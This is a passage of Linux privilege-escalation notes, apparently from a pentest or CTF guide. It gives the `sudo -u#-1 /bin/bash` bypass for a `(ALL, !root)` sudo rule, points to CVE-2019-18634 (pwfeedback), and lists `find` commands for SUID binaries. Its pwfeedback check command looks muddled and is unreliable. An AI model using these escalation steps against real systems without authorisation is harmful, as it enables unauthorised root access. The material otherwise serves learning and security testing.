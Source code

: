 When running `sudo -l`, we observed the following permissions:

```bash
User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash
```

This indicates that the user `hacker` can execute `/bin/bash` with sudo, but not directly as root. To exploit this, we can use the following command:

```bash
sudo -u#-1 /bin/bash
```

## Vulnerability Related to pwfeedback

In certain versions of `sudo`, if the `pwfeedback` option is enabled, this vulnerability can be exploited. More details can be found on [CVE-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634).

To check if the `pwfeedback` option is active, we can execute the following command:

```bash
sudo sudo [any command]
```

If the `pwfeedback` option is enabled, it may reveal a potential path for privilege escalation.

# Escalation path with SUID

Command to find all executable with SUID for this user

```bash
find / -perm -u=s -type f 2> /dev/null
```

```bash
find / -perm -04000 -ls 2> /dev/null
```

![Privilege Escalation](./Image/29.png)
